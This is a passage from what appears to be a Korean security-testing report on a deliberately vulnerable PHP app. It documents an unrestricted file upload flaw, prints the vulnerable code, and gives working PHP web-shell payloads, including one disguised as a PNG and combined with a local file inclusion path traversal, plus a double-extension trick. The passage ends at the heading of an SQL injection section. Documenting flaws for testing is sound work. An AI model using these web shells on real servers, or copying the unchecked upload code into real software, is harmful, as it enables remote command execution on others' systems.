 
### 3. **Unrestricted File Upload**

#### 취약한 파일
- `api/submit_inquiry.php` (lines 56-106)

#### 취약점 코드

```php
// 파일 타입 검증 부재 (주석으로만 표시)
// WARNING: Weak validation for security testing purposes only
$original_name = basename($file['name']);
$file_info = pathinfo($original_name);
$filename_base = $file_info['filename'];
$file_ext = isset($file_info['extension']) ? $file_info['extension'] : '';

// 파일명 그대로 저장 (확장자 검증 없음)
move_uploaded_file($file['tmp_name'], $target_path);
```

#### 공격 방법

**공격 1: PHP 웹쉘 업로드**
```bash
# 1. 웹쉘 파일 준비 (shell.php)
<?php system($_GET['cmd']); ?>

# 2. 문의 양식을 통해 업로드
# URL: http://localhost:8000/inquiry-form.php
# 파일 선택: shell.php
# 업로드 후 접근: http://localhost:8000/uploads/shell.php?cmd=whoami
```

**공격 2: 이미지로 위장한 웹쉘**
```bash
# PHP 코드를 PNG 파일에 삽입
echo "<?php system(\$_GET['c']); ?>" > shell.php.png

# 업로드 후 LFI 취약점과 결합
http://localhost:8000/support.php?page=../uploads/shell.php.png&c=whoami
```

**공격 3: Double Extension**
```bash
# 파일명: evil.php.jpg
# 일부 서버 설정에서는 .php로 실행됨
```

---

### 4. **SQL Injection (Prepared Statement 미사용 영역)**

#### 취약한 파일
- `api/get_inquiries.php` (잠재적)
- `api/get_inquiry_detail.php` (잠재적)

